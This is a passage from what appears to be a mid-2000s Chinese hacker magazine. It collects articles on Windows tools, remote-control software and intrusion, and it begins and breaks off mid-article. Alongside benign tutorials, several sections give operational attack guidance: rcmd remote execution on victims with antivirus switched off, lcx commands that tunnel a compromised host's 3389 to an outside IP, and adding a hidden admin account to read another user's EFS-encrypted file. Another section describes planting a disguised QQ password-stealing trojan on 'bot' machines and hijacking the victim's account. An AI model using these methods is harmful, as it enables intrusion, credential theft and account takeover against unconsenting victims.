可以让你选择，如图6。而另外一个用户 123456 由于没有权限不在选择范围之内。而如果我们在运行里输入 `runas /user:123456 d:\RealPlayer`，如图7。随后会出现图8的界面让你输入 123456 用户名的密码（密码也是 123456）……图9表示 123456 这个用户没有权限安装软件。

顺便在此再说个比较有意思的事情……先以用户 123 登录并运行播放器，然后“开始→注销→切换用户”，再以用户 234 登录，此时因为用户 123 状态被保留，其应用程序仍在运行。

### 将 CMD 进行到底——入侵利器 rcmd

沙雯

大家还记得 X 档案 2005 年第 9 期上的“超级工具组合打造超级远程控制”一文吧……但是只拿到了 cmd 下的 shell，却无法打开 3389，所以后面的入侵就无法继续下去了。

我想了想，在我们的入侵过程中，开启对方的 3389 并不是一件容易的事情……希望本文可以使我们的入侵在 cmd 下继续前进，让我们可以将 cmd 进行到底。

### 入侵利器：rcmd

首先是 cmd 下的连接，在“超”一文中我们使用的是 recton。这里介绍一个更好的工具——`rcmd105`，它可在 cmd 下使用，稳定且功能完善。

`cscript rcmd105.vbs 远程主机IP 远程主机用户名 远程主机密码`

从图1中我们可以看到这个工具的功能相当全面，融合了常用命令，包括 pslist、pskill 以及小榕的 ca，可谓是继 nc 后的又一款黑软利刃。

我们主要用到的是第七条命令：远程 dos，先按数字 7，回车后即可在远程电脑上执行命令了。但缺点是只提示是否执行成功，不会像本地 cmd 那样回显。

- 1. 现在 rcmd 已被许多杀软查杀，使用时要先关闭杀毒软件。
- 2. 在 Win2000 上测试可用，WinXP 可能受默认权限影响。
- 3. 工具基于 VBS 脚本编写，可自行修改命令与功能。
- 4. 因为是 cmd 下程序，也可配合批处理使用。

们就可以一下子控制好几台电脑了。最后要强调的是，这个程序在连接不上的时候也会出现和正常连接一样的成功提示，但是一执行代码就会回到本地 cmd 窗口，自己在使用的时候注意一下就可以了。

### 端口转换工具：lcx

在“超级”一文中我使用的端口转换工具其实是一款图形界面的木马，但是到了 cmd 下它的使用就不可以了，因此，我推荐使用 lcx.exe。lcx.exe 运行后的界面如图 2 所示。


图 2

第一个应用：我们先把程序上传到肉鸡上，然后运行 `lcx.exe -tran 1433 127.0.0.1 3389`，这样只要我们连接远程主机的 1433 端口，就相当于连接了 3389 端口。

```bash
lcx.exe -tran 1433 127.0.0.1 3389
lcx.exe -listen 7788 3389
lcx.exe -slave 218.27.203.30 7788 192.168.0.13 3389
lcx.exe -listen 7788 3389
lcx.exe -slave 218.27.203.30 7788 192.168.0.3 3389
```

第二个应用：我们先在本机上运行命令监听数据包从 7788 端口转换到 3389 端口上，然后在内网的机器上运行命令，这样内网的 3389 就转换到了本地，而本地正在监听，这样就实现了内网 3389 的控制。

第三个应用：入侵不能上网的机器，我们可以利用内网中可上网主机作为跳板进行控制。好了，本文到此结束，如果有其他朋友还有什么更好的思路与方法，也希望能够共享！

### Advatrack

#### 远程控制帮了我

周玲生

周末回到家，才想起来忘了关闭单位宿舍里的电脑电源，偏偏爱机设置成自动开机，而且为了下载电视剧安装了 eMule，下载后的文件放在 C 盘，眼看着 C 盘越来越满。急中生智，想到此前试用的新软件 Advatrack：既然已经开了 3389 远程控制端口并作端口映射，不妨试试远程处理。Advatrack 分 Pro 与 Standard 两个版本（Pro 版有邮件通知功能），通过硬件特征生成识别码并上传到网站数据库，联网后可据此定位机器并及时反馈 IP 地址。

Advatrack 默认安装路径为 `C:\WINDOWS\PROTECT`。安装过程中可重命名并添加注释，在窗口中填写姓名和电子邮件地址，用于反馈电脑信息。随后登录其网站 `http://www.absolute-protect.com/cgi-bin/cgiwrap/absolute/REPORT.CGI`，网站可搜索到该在线主机并给出 IP 地址（图 2）。


图 1


图 2

接下来就简单多了，打开“开始”→“所有程序”→“附件”→“通讯”→“远程桌面连接”，根据提示输入计算机 IP、用户名和密码即可远程登录爱机，将下载完的文件剪切到空闲分区，继续下载未完成部分。呵呵，Advatrack 真不愧是远程控制的好帮手！

### GetByMail

和 PcAnywhere 等远程控制软件相比，GetByMail 能通过普通的 E-Mail 在不上网的环境中遥控远程电脑。使用 GetByMail，不仅可以浏览查看远程共享文件列表、上传下载文件夹和文件，在共享资源上进行目录的切换、新建、改名、删除等操作，还能够抓取远程电脑的屏幕。另外，GetByMail 既能作为服务器端软件，共享其它远程资源；也能同时作为客户端软件，设置共享文件和用户列表，供别的用户分享。这有些类似于 P2P 软件。GetByMail 支持各种类型的 E-Mail 邮箱，包括当前流行的 Gmail。最棒的一点是 GetByMail 不受任何防火墙约束。GetByMail 为远程连接和文件共享等操作提供了有力的安全验证，实现数据的加密传输。下载地址是：http://www.getbymail.com/en/download/bin/gbm.exe。下面我们来一步步地介绍它。


#### 1. 配置 E-Mail 连接参数

在使用 GetByMail 之前，首先要配置 E-Mail 连接参数。


图 1

在 GetByMail 的主窗口（图 1）上，点击菜单“Tool”→“Mail Configuration”→“Dialog...”，在打开的配置窗体中（图 2）的“Server Type”列表中选择 Microsoft Exchange Server 或 Internet E-mail（POP3/SMTP）邮件服务器类型；在“E-mail address”中输入电子邮件地址（服务器端假设为 Office@163.com）；在“Incoming Mail Server（POP3）”中输入 POP3 服务器的地址、端口、用户名和密码。对于 Gmail 邮件类型，需要勾选“This server requires a secure connection (SSL)”项。GetByMail 会自动配置“Outgoing Mail Server (SMTP)”，服务器信息配置方法和 POP3 大体相同。当然，也可以点击菜单“Tool”→“Mail Configuration”→“Wizard...”，在操作向导的帮助下进行配置。


图 2

#### 2. 用户和共享资源管理

在 GetByMail 的主窗口中点击菜单“Tools”→“Security Manager...”，在 Security Manager 窗口（图 3）中点击 Members 按钮，在地址列表工具条中单击“Add new user”按钮，在添加用户窗体（图 4）中输入客户端 E-Mail 地址（这里假设为 Home@163.com）、用户 ID 号以及密码，可以添加多个用户。


图 3

如果想暂时禁用某些 E-Mail 地址，点击工具栏上的“Move to Ignored”按钮，将其发送到 Ignored（忽略）列表中。然后在地址列表中为拥有该 E-Mail 地址的用户设定控制权限，包括“Change Dir”（改变路径）、“Download”（下载）、“Rename”（改名）、“Delete”、“Screen”（抓屏）等 8 种权限。利用工具栏中的按钮，可以对地址栏中的用户项进行编辑、删除、调整顺序等操作。

选定地址栏中的用户项，在资源管理列表工具栏中点击“Add new folder”按钮，在共享文件编辑窗口（图 5）中为其设置共享资源，可以设置多个共享资源项。同时利用工具栏中的按钮，可以对资源管理列表中的资源项进行编辑、删除、调整顺序等操作。这样，该用户就具有了对设定资源的相应控制权。

如果允许匿名访问服务器端，在窗口上部点击 Anonymous 按钮，点击“Enable anonymous”按钮激活匿名访问并添加共享资源。对于匿名访问，只允许改变目录和下载操作（图 6）。点击 Ignored 按钮，在忽略列表中显示暂时禁用的 E-Mail 地址。


图 4


图 5

#### 3. 启动 GetByMail 服务

在上述内容设置完成后，在 GetByMail 主窗口中点击菜单“File”→“Start”，启动 GetByMail 服务，等待客户端的连接。

GetByMail 使用完成后，点击菜单“File”→“Stop”停止 GetByMail 服务。

### 4. 客户机端 GetByMail 的配置

在客户端侧同样要配置 E-Mail 连接参数，设置方法与服务器端一致。注意客户端的 E-Mail 地址要包含在服务器端的 Security Manager 窗口的地址列表中，如本例中假设的地址 Home@163.com。

值得说明的是，GetByMail 可以既当服务器又可以当客户机，在客户端同样可以设置用户和共享资源，方法同上。设置完成后，在 GetByMail 主窗口中点击菜单“File”→“Start”，启动 GetByMail 服务。

#### 5. 实战 GetByMail 远程连接

在客户端 GetByMail 的主窗口的 Address 列表中，输入服务器端的 E-Mail 地址（如本例中的 Office@163.com），在 User ID 和 Password 中输入客户端地址（如本例中的 Home@163.com）对应的用户 ID 和密码。如果是匿名访问，勾选“Anonymous”即可，然后点击 Connect 按钮开始连接。

连接的速度视具体的网络运行情况以及邮箱的反应速度而定。一般说来，如果双方采用的都是微软的 Exchange Server，那么速度最快（少于 1 秒）；如果双方使用的都是普通的 Web 邮箱，那么速度一般（20 秒以内）。

连接成功后，在 Local Host 面板中显示客户端的磁盘列表，在 Remote Host 面板中显示服务器端预设的共享资源。利用其右键菜单，可以进行文件夹和文件的切换路径、新建、改名、删除等操作，上述操作都有对应的快捷按钮和快捷键。点击 F10 键可以抓取服务器端的电脑屏幕，并将其显示在 Remote Host 面板中，可以以全屏方式查看，并且可以将其保存为图片文件。

在 Local Host 面板中选择合适的保存路径，在 Remote Host 面板中选中文件夹或文件，在其右键菜单中点击“Copy”项（图 7，快捷键是 F5），可以进行文件下载。同样地，在 Remote Host 中选择合适的保存路径，在 Local Host 面板中选中文件夹或文件，在其右键菜单中点击“Copy”项（快捷键是 F5），可以进行文件上传。

在文件上传下载时，GetByMail 将文件夹或文件进行压缩，将压缩后的文件进行切分，采用多线程方式并行进行上传和下载操作，大大提高了传送速度。在主窗口底部的状态列表中，显示各种操作信息的详细信息。


#### 6. 附加功能

在 GetByMail 的主窗口中点击菜单“Tools”→“Address Book...”，打开地址簿管理窗口，在其中可以对地址项进行添加、编辑、删除、调整顺序等操作。每个地址项由 E-Mail 地址以及对应的用户 ID 号组成。

在 GetByMail 服务处于启动状态时，点击菜单“Tools”→“Mail Client...”，在邮件收发窗口中能够收发电子邮件。

GetByMail 介绍到这，相信你一定清楚它的功能了，多说无益，大家下去实践实践，肯定收获多多。

（本文涉及的相关工具：GetByMail，光盘中有收录。）


## 王艺翔

实验环境：我先以账号 WWW 登录系统，在 F 盘上建立了一个名为 www.txt 的文件，里面写了我的私人信息，然后我用 XP 自带的加密功能对其进行加密。如何对 www.txt 文件加密呢？我在这里也说下步骤：右击 www.txt 文件选择“属性”，如图 1，点击“高级”出现图 2 界面，在“压缩或加密属性”处选择“加密内容以便保护数据”，连续点两次“确定”便对文件成功加密了，加密后的文件显示为绿色。


XP 系统自带一个文件加密功能，但有个前提，就是这样的加密功能只对文件系统为 NTFS 的才行。今天我们来做个实验，一起破解这样的加密功能。


有人问，这样加密后能达到什么效果呢？效果是：其他任何用户登录我的计算机，双击 www.txt 都无法看到其内容（不管他是 user 权限还是 administrators 权限），会出现图 3 界面。当然了，我在这里顺便补充一下，万一文件是几个人共用的秘密文件呢？那其他用户岂不是打不开了吗？那……

如何让其他用户可以访问 www.txt 文件？我们可以这样解决，步骤如下：右击“www.txt”依次选择“属性”→“高级”→“详细信息”→“添加”……


点“打开”→“下一步”→“完成”，最终出现图 12 的界面。这样一来我们的破解工作便完成了 80%。


到 F 盘查看那两个文件，如图 8：一个文件扩展名为 cer；另一个扩展名为 pfx。cer 为公钥证书，pfx 还包含代理人的私密密钥。


前面的操作方式虽然简单，但是只能针对文件进行设置，且必须一一指定被授权用户。Windows XP/2000 通过“策略代理”可让特定用户读取加密文件，这类用户称为数据恢复代理人（DRA）。

然后我们点“开始”，在“运行”里面输入 gpedit.msc，找到“正在加密文件系统”，选择“添加数据恢复代理”，如图 10。


那我们怎么才能读取 www.txt 里面的内容呢？双击 jsj.PFX，进入向导（图 14），连续点击“下一步”，输入密码 jsj，再继续下一步完成。


好，加密功能介绍完了，下面我们说说如何破解这样的加密功能，当然要借助于数据恢复代理人（DRA）。

行动开始：先在本地建立一个用户名为 1、密码为空的账号，并加为管理员。然后用该用户登录系统，在命令行输入相关命令生成证书。

```bash
net user 1 "" /add
net localgroup administrators 1 /add
cipher /r:jsj
```


点“下一步”，在图 11 的“浏览文件”中选择刚才的 jsj.cer 文件，随后依次完成向导。


上面的方法用在什么样的环境下呢？假设机器是服务器，开了若干账号，你自己的账号为 administrator。为了方便大家远程登录，又建立了若干个 administrators 权限的用户。这样如果你以 administrator 账号登录系统，并对某个文件进行了加密，那么其他用户完全可以通过我上面说的方法对你的文件进行破解。

当然，并不是没有解决的方法，如果这样的话 Windows 操作系统岂不是很不安全？！我们可以为 www.txt 设置权限来限制其他用户读取，只有你自己可以访问这个文件。如何设置权限呢？我们右击 www.txt 依次选择“属性”→“安全”→“高级”，如图 16。


将“从父项继承那些可以应用到子对象的权限项目”的勾去掉，然后依次点“删除”→“确定”→“是”，这样便会出现图 17 的界面。在这里我们只添加自己的账号，其他账号一律不加，这样便完成了对权限的设置，加密文件才能算真正的加密了。

## 胆组乐队新陈映武——“狂删灵”

虽说现在好多工具都有对注册表解锁的功能，像 Windows 优化大师等都不错！可部分在网吧“作业”的朋友，找个工具就比较困难了，还得靠手工才可以做到以不变应万变。

注册表被锁定的状态（图 1）。其实，关于注册表的解锁我们可以到组策略里进行设置：单击任务栏的“开始→运行”输入 gpedit.msc，我们看到这样的窗口（图 2），依次展开“用户配置→管理模板→系统”，双击右侧窗口中的“阻止访问注册表编辑工具”，在弹出的窗口中选择“未配置”或“已禁用”都可以。


我们不能只知道表面的原因，当然还想再挖下去！我们可以比较一下设置前后注册表的变化，我就直接用 KV2005 实时监视功能观察下。当我们选择“已启用”再单击应用，可以看到 KV 弹出一对话框（图 3），然后再选择“详细信息”，因为没办法截图，我把其中的一段直接写下来：


> 注册表信息：
- 类型：禁止系统注册表工具
- 操作：修改设置键值
- 位置：HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System
- 键值：DisableRegistryTools
- 内容：DWORD ...

观察下，其实和我们平时解锁注册表用的方法大致还是相同的。接下来在记事本里输入如下内容：

```reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

（中间的一行是空的）把文件扩展名存为 .reg！如果直接用 .reg 文件导入的话会发现“注册表已被管理员停用”，我们应该到 cmd 下导入，格式是：`reg import FileName`。FileName 是导入的磁盘文件名，比如：`reg import c:\2.reg`。导入之后我们能正常打开注册表（图 4）。


回到之前组策略中的“阻止访问注册表编辑工具”，还是显示“已启用”，不管这些，注册表可以用就行了！我们可以把上面的“dword:00000000”改为“dword:00000002”，再导入就会发现注册表回到了之前被禁用的状态。

最后稍微延伸思维，我想一般最容易碰到这种注册表被禁用的情况还是在网吧了。可以先把 .reg 文件放在 QQ 的网络硬盘里，如果可以打开任务管理器的话，那就最好了，单击“文件”，选择“新建任务”，同样输入：`reg import c:\2.reg`，效果是一样的。

（本文涉及的相关工具：解锁注册表.reg，光盘中有收录。）

### 巧创奇迹：巧用代理绕过防火墙

彭文波

上网冲浪的过程中，我们经常碰到类似的情况：出于单位网络安全的考虑，管理员会限制某些网络协议，这样导致用户不能使用 FTP 等资源；再比如，管理员限制了一些网络游戏的服务器端 IP 地址，而这些游戏又不支持普通 HTTP 代理，让那些爱好游戏的用户一筹莫展！可见，在很多场合，网管通常都会封杀 80 以外的服务端口，这样就会导致用户只能使用 WWW 等浏览服务。另外，现在有很多聊天软件如 ICQ、IRC 和 QQ 等，只提供 SOCKS Proxy 的功能，即使你有个免费的 HTTP Proxy 也不能让这些聊天程序通过代理来连接服务器。那么，能否让 HTTP Proxy 变成 SOCKS Proxy 呢？其实，只要防火墙开放 80 端口，我们可以配合使用 SOCKS2HTTP、SOCKSCAP32 这两个软件，就可以完全绕过防火墙了。

需要注意的是，网络必须能正常连接到 www.totalrc.net，端口为 80 这个网关地址。

- 第 1 步：找一个可靠的 HTTP Proxy 地址。现在网上找 HTTP 代理还是很容易的，一抓一大把，在 IE 里加了 HTTP 代理就可以轻松访问目的网站了。“QQ 代理公布器 V2005”是一款不错的突破软件，软件界面如图 1 所示。


- 第 2 步：下载运行 Socks2http 软件。软件下载地址为 http://www.totalrc.net/s2h/index.jsp。它能将基于 Socks 协议的请求转换为 HTTP 协议的请求，并通过指定的 HTTP 代理服务器处理这些请求。首先需要指定一个 HTTP 代理的具体参数。选中“Use http proxy server”，在 Name/IPAddress 栏填入 HTTP Proxy 的域名或 IP 地址，在 Port 栏填入 HTTP Proxy 的端口。本例中我们选择一个免费代理服务器，地址为 218.189.229.234:8080。设置完成后，切至工具栏中本程序的图标，选择 Configuration，其他与上相同，如图 2 所示。


- 第 3 步：配置 Socks2http 软件。单击“Gateway Configuration”选项卡，因为我们使用的是免费代理，所以要选中“This is Personal Gateway”，代表这是一个个人服务器。否则，就会出现错误提示，如图 3 所示。


- 第 4 步：测试 SOCKS 代理服务器。单击“Security”选项卡，可以看到 SOCKS Proxy 实现的端口，默认为 1080。要检测你的 SOCKS2HTTP 是否成功配置好并可以使用了，可以尝试登录到本机的 1080 端口。如果可以登录上，则表示 HTTP Proxy 已成功地转换为了 SOCKS Proxy。可单击“开始”，选择“运行”，输入“telnet localhost 1080”来远程登录到本机的 1080 号端口。现在，该程序就将所设置的 HTTP Proxy 变成了本地的 SOCKS v5 Proxy，可以以 localhost:1080 或 127.0.0.1:1080 的形式来使用了。


- 第 5 步：下载并安装 Sockscap32 软件。软件下载地址为 http://www.socks.nec.com。SocksCap32 软件是由美国 NEC USA, Inc. 公司出品的代理服务器第三方支持软件。它拥有功能强大的 SOCKS 调整，通过它几乎可以让所有基于 TCP/IP 协议的软件如 ICQ、QQ、MSN、MUD、FTP、IE、NEWS 等，都能通过 Socks 代理服务器连接到外部网络，甚至代理猎手还可以通过它去搜索代理服务器。

- 第 6 步：配置通过本机 127.0.0.1 端口 1080 的 SOCKS5 代理连接网络。选择“文件”菜单下的“设定”，在 SOCKS 服务器中填入 127.0.0.1，Port 中填入 1080，在协议中选择 SOCKS 版本 5，域名解析中选择“先尝试由本地端再由远端解析”，然后“确定”，如图 4 所示。

- 第 7 步：单击 SocksCap32 面板中的“新建”按钮，点击“浏览”，选择需要经过 SocksCap32 代理的应用软件和工作目录路径。或者直接将要运行软件拖入窗口中的空白处，在弹出的窗口中选择“新建应用程序标识项”，设置完毕，点击“确定”，如图 5 所示。


- 第 8 步：现在只需双击 SocksCap 控制台界面里的图标，就可以通过 HTTP 代理玩 QQ 了。注意：在 SOCKSCAP 中运行的 ICQ 等软件不需再对代理做特别配置；在使用过程中，不可以关闭 Sockscap32，否则已在其上运行的程序就不能正常继续运行。另外，也可以直接在 OICQ 中进行设置。如 QQ2005 中，进入“系统设置”界面选中“代理设置”选项，在该界面中选中“使用自定义的网络设置”并选择“SOCKS5 代理服务器”，在防火墙地址栏填入 localhost，在端口栏填入 1080。重新登录后，现在 QQ 就是通过代理上线了！如图 6 所示。


如果需要测试此服务器是否正常，可以单击“测试”按钮进行测试。ICQ、MSN 等其他聊天工具或浏览器的设置与之类似，用户可以多多体会。（本文涉及的相关工具：QQ 代理公布器 V2005、Socks2http、Sockscap32，光盘中有收录。）

### 肉鸡 IP 显示与控制

用过正向连接远程控制木马来控制外网肉鸡的朋友，肯定碰到过这样的情况：上次还能连接的肉鸡，怎么这一次就连接不上了呢？当然有一种原因就是咱们可爱的马儿已经被残忍的杀毒软件无情地 kill 掉了，但更多的是另外一种原因：咱们的肉鸡用的是宽带 ADSL 等动态分配 IP 的网络连接，也就是说肉鸡每次登录网络都会造成新分配到一个 IP。这样你用上次的 IP 去连接它，当然连不上了。

这就是正向连接的最大缺陷，此时反向连接就显示出它的优势了。然而对于处在内网的菜鸟，要控制外网的肉鸡不太容易，又要端口映射或者域名转向什么的，烦死了。如果肉鸡数量不太多的话，还不如正向连接来得干脆，但上面那个问题怎么解决呢？这里我跟大家分享一种另类方法：用 QQ 实现肉鸡上线提示及 IP 显示。

我们的思路是：得到肉鸡用户的 QQ 号并加他为好友，然后只要你用的是显 IP 的 QQ 版本，那么每次他一上 QQ（一般人开机后的第一件事就是双击那个可爱的小企鹅，呵呵……）我们就能知道它的 IP 了。思路非常清晰，下面大家来看怎么实现。远控木马这里我们以 radmin 为例，如图 1。


连接后点屏幕监视，要是肉鸡用户正在使用 QQ 那最好了……我们直接能看到他 QQ 号，然后请求加他为好友。那要是对方没在用 QQ 或者请求被拒绝了怎么办呢？嘿嘿，这时候我们就要来点硬的了。使用 radmin 的文件管理功能把网啦 QQ 大盗服务端（咱们换成 QQ 游戏的图标如图 2）上传到肉鸡桌面，如图 3；等着对方运行它，接着就等着去邮箱收信吧！


得到 QQ 号和密码后，趁他不在线的时间用他的 QQ 登上去，再把他加为好友，这次哪怕他不同意也不行了。看，我已经加上了，IP 是 58.208.15.144（图 4）。对于其他一些有木马种植功能的远程控制木马那就更简单了，直接种植网啦 QQ 大盗服务端。


这样我们就利用 QQ 成功解决了文章篇首提到的问题，以后不管肉鸡的 IP 怎么变都逃不出我们的手掌心。QQ 实在是居家旅行、杀人越货之必备工具啊！

> （注意：本文的前提是已经在肉鸡上运行了远控木马，至于还没有肉鸡的朋友，可以通过扫 3389 端口等多种方法得到肉鸡，然后再通过各种方法在肉鸡上运行远控木马，这里就不详细说明了，不懂的朋友可以多看看以前的黑客 X 档案。）

（本文涉及的相关工具：radmin，光盘中有收录。）


### 为网站加把“安全锁”

同 Apache、Tomcat 等网络服务器软件相比，Microsoft 的 IIS（Internet Information Server）具有安装方便、使用配置简单的特点，目前 IIS 在网络上使用得非常广泛。许多网站都是基于 IIS 建立的，但是 IIS 自身存在不少安全漏洞，黑客大多喜欢攻击运行 IIS 的网站主机。

Troxo 开发的 IISPassword 为您的网站加把“安全锁”，可以针对网站提供灵活的认证保护，下载地址：http://download.softpedia.ro/software/INTERNET/IISpass.zip。

#### 一、配置 IISPassword

在 Windows 控制面板中打开“管理工具”→“Internet 管理器”，在 IIS 管理窗口左侧展开网站树形结构，选中网站名称后右键“属性”，在属性窗口中选择“IISPassword”面板，在左侧网站路径结构中选择需要加密的目录（根目录或子目录），在右键菜单中点击“Protect”项即可对该目录进行加密。

加密后的目录图标显示加密标志；点击“Unprotect”菜单可解除加密状态；还可以通过菜单对指定路径下新建、改名、删除子目录。为使加密真正有效，需要为该加密路径设置访问权限。在右侧“Basic”面板中点击“Add”按钮，在用户管理窗口中添加用户名及密码；如果需要对整个网站加密，只需对网站路径结构树中的根目录（本例中为“Root”）进行加密即可。

这样，当访问加密过的网站时，必须在认证窗体中输入预设的用户名和密码（如图 2）。此外，IISPassword 允许对网站路径中的任意目录进行加密，可以分别设定访问权限，当访问不同的网站地址时需要进行不同的认证，这大大提高了网站的安全性。在“Advanced”面板（图 3）中可以设置高级属性，在 Directive 列中可设置字段属性。选中某一参数后点击“Edit”按钮能够进行编辑。常用的有“AuthName”属性用于设置认证窗体标题；在“AuthUserFile”属性中可导入用户定义文件（如图 4）。


#### 二、管理控制文件


实际上对于加密过的网站，IISPassword 在其实际路径下产生了 .htaccess 和 .htpasswd 两个加密文件，称为 Access File（控制文件）。.htaccess 存放的是用户名，.htpasswd 存放的是密码信息。出于安全性考虑，用户可以更改默认加密文件名称，也可以新建控制文件。

在 IIS 管理器中选择 IISPassword 面板，在“Access File”中可选择“Copy contents of old access files”或“Create New”，以复制旧文件内容或新建控制文件。并可在“User and Group file protection.”中修改控制文件前缀（默认“.ht”），以防止黑客下载认证文件侵入网站。

（本文涉及的相关工具：IISPassword，光盘中有收录。）

## 正常与错误认识：Svchost.exe 进程

很多菜鸟朋友对 Svchost.exe 进程都不太了解，例如在任务管理器中一旦看到有多个该进程，就以为中了病毒或木马。其实并非如此：正常情况下 Windows 中可以有多个 Svchost.exe 进程同时运行，Win2000、WinXP、Win2003 的数量都可能不同，因此看到多个 Svchost 进程未必就是病毒。

### 一、Svchost.exe 进程是干什么的？

Svchost.exe 文件存在于“%systemroot%\system32”（通常是 C:\Windows\system32）目录下，是 NT 内核 Windows 的重要进程，专门用于系统启动各类服务。它本质上是服务宿主，可调用动态链接库 DLL 文件来启动对应服务；每个 Svchost.exe 进程可同时启动多个服务。

### 二、Svchost 是如何启动系统服务的？

系统服务多以动态链接库（DLL）形式实现，Svchost 通过调用指定 DLL 启动服务。系统在注册表中保存服务与参数映射，Svchost 读取后决定调用哪个 DLL。以 helpsvc（Help and Support）为例，可在 services.msc 中看到其路径为 `C:\WINDOWS\System32\svchost.exe -k netsvcs`，对应参数存放于注册表如 `[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\helpsvc]`。


> **小提示：** 除了 System、SMSS.EXE 和 CSRSS.EXE 这三个进程，ntsd 可以杀掉任何一个系统进程。从 Win2000 开始，微软就提供了 ntsd.exe 命令。执行后可获得系统的 debug 权限，因此能关闭大部分系统进程。若遇到无法关闭的进程，可使用命令：`ntsd -c q -p XXX`（XXX 为该进程 PID）。其中 `-c q` 表示退出调试器，调试器退出后会连带关闭被附加进程。

找到类型为“REG_EXPAND_SZ”的键“ImagePath”，其键值为“%SystemRoot%\System32\svchost.exe -k netsvcs”，这就是在服务窗口中看到的服务启动命令。另外在“Parameters”子项中有名为“ServiceDll”的键，键值为“%WINDIR%\PCHealth\HelpCtr\Binaries\pchsvc.dll”，其中“pchsvc.dll”就是 helpsvc 服务要使用的动态链接库文件。这样 Svchost 进程通过读取“helpsvc”服务注册表信息，就能启动该服务了。

### 三、现在 Svchost 到底启动了哪些服务？

如果你想了解每个 Svchost 进程到底提供了哪些系统服务，可以在命令提示符下输入命令来查看。

```
tasklist /svc
```

例如在 WinXP 中，打开“命令提示符”，键入 `tasklist /svc` 命令查看；在 Win2000 中，则输入 `Tlist -S` 命令来查看。

```
tasklist /svc>abc.txt
```

如果你在 WinXP 中想得到所有进程的详细信息，可以打开“命令提示符”，键入 `tasklist /svc>abc.txt` 命令，于是在当前目录中将生成一个 abc.txt 文件，其内容就是当前正在运行的所有进程情况，例如进程名、PID 号、该进程启动了哪些服务。

### 四、如何发现 Svchost 进程有问题？

由于 Svchost 进程可以启动各种服务，因此病毒、木马也经常伪装成系统的 DLL 文件，使得 Svchost 调用它们，从而进入内存中运行、感染和控制电脑。

对策：建议使用“Windows 优化大师”进程管理器查看所有 Svchost 进程的执行文件路径（图 3）。正常的 Svchost 文件应该位于“c:\Windows\system32”目录下，如果发现其执行路径在其他目录下，就有可能感染了病毒或木马了，应该马上进行检测和处理。

### 五、Svchost 进程杀不掉怎么办？

如果有些 Svchost 进程，你在任务管理器中无法关闭，那么可以使用 ntsd 命令来杀掉它，方法如下。

首先需要了解欲杀的 Svchost 进程其 PID 是多少？在 WinXP 下，按 Ctrl+Alt+Del 打开任务管理器，点击“进程”选项卡→“查看”→“选择列”，在弹出的窗口中（图 4）勾选“PID（进程标识符）”，然后回到任务管理器中，即可看见 PID 了（例如要杀的 Svchost 进程，其 PID 是 844）。

```
ntsd -c q -p 844
```

接下来关闭该进程。点击“开始”→“运行”输入“CMD”（或者“开始”→“程序”→“附件”→“命令提示符”），回车；在命令提示符下，输入命令 `ntsd -c q -p 844` 即可杀掉 Svchost 进程（PID 是 844）。

#### 一、LogMeIn 简介

3Am Labs 推出的 LogMeIn Pro 是 Windows 系统上最便利的远程管理和控制解决方案。和传统的远程控制软件不同，LogMeIn Pro 不需要记住远程主机的 IP 地址，只需要一个 Email 地址和密码即可。LogMeIn Pro 允许用户通过局域网、Internet 访问远程电脑系统。


在客户端只需要安装一个 Web 浏览器、一个终端模拟器或者兼容 WAP 的手机。LogMeIn 具有远程控制、文件传送、文件发布、在线合作等强大功能，提供“End to End SSL”加密和多层安全认证保护密码和数据，支持远程到本地打印等。

#### 二、建立账号

使用 LogMeIn 之前，需要到 https://secure.logmein.com/go.asp?page=mycomputers_nologin 注册账号。输入 Email 地址、账号和密码并确认后，点击“Create Account”按钮，进入“My Computers”页面，表示账号建立成功。


#### 三、安装 LogMeIn

下载并在远程电脑上安装 LogMeIn.exe，安装过程中在 LogMeIn Account Details 窗口输入账号及密码（图 1）。如在多台计算机使用同一账号安装 LogMeIn，可实现群控。安装完成后注册成系统服务，在浏览器中输入 https://127.0.0.1:2002 可测试。Windows98/XP 系统还需输入 Username 和 Computer Access Code。


#### 四、远程控制

在远程电脑上激活 LogMeIn 后，在客户端浏览器输入 www.LogMeIn.com，在网页中“Have an account? Log in.”处输入账号和密码，点击“log me in”进入“My Computers”页面（图 2）。在列表中选择“Connect”后出现登录页面（图 3），输入预设用户名和控制码或 Windows 用户名和密码，确认后进入控制主页（图 4）。


#### 五、屏幕控制

在“Remote Control”一栏中点击“Go>>”按钮，在出现的对话框中有三项选择：远程文件的本地打印、同步远程机与客户机的剪贴板数据、记住设置（下次连接不出现对话框）。根据情况选定即可。

点击工具条上的“Ctrl-Alt-Del”按钮激活远程主机登录窗口，进入控制状态后，远程主机会出现被控制成功信息并显示客户机的 IP 地址。用户可以像使用本机一样操纵远程电脑屏幕。

LogMeIn 提供的远程控制功能比较强大。利用屏幕控制窗口上的工具条，用户可以设定是否全屏控制，设定控制屏幕的分辨率及色彩位数，自由缩放屏幕大小，还提供了屏幕放大镜功能（图5），可以设定网速，还能列出当前系统所有终端服务连接，并能切换到选定的终端服务连接，还可以打开聊天功能，和远程主机进行交互聊天。

有趣的是，点击按钮菜单“View”→“Erase Drawings”，可以在屏幕上自由“涂鸦”（图6）。


#### 六、文件传输

在“File Manage”一栏中点击“Go>>”按钮，进入文件传输界面（图7）。在左边显示客户机文件列表，在右边显示远程机文件列表，支持鼠标拖拽传送文件。利用工具栏上的按钮和右键菜单，能实现对本机和远程主机上的文件和文件夹进行建立、改名、删除、合并、更新、复制、选择等操作。可以利用同步目录和复制更新功能保持客户机和远程机目录的同步。LogMeIn 支持断点续传，一旦在传送过程中意外断开，再次连接时会从断开处继续传送。

#### 七、文件共享

在“File Share”栏中点击“Go>>”按钮，进入文件共享窗口（图8）。


文件共享是为远程主机上选定的文件设置一个共享连接，例如“https://secure.LogMeIn.com/f?...”，使用者只需点击这个链接地址就可以直接从你的电脑上下载共享文件。应该指出这种共享连接是安全的、易于使用的。点击“Start Sharing Files”按钮激活操作向导，帮助用户轻松建立文件共享连接。可以同时建立许多文件共享连接。

#### 八、LogMeIn 属性设置

在“Preferences”栏中点击“Go>>”按钮，打开属性设置窗口。设置项涉及 Remote Control Settings（修改远程控制会话配置）、Security Settings（浏览远程电脑的安全设置）、Network Settings（浏览并且修改来自你的远程系统的连接数据）、日志设置、Reboot Options（重新启动远程电脑）、Advanced Options（查看修改 LogMeIn 高级配置）等内容。

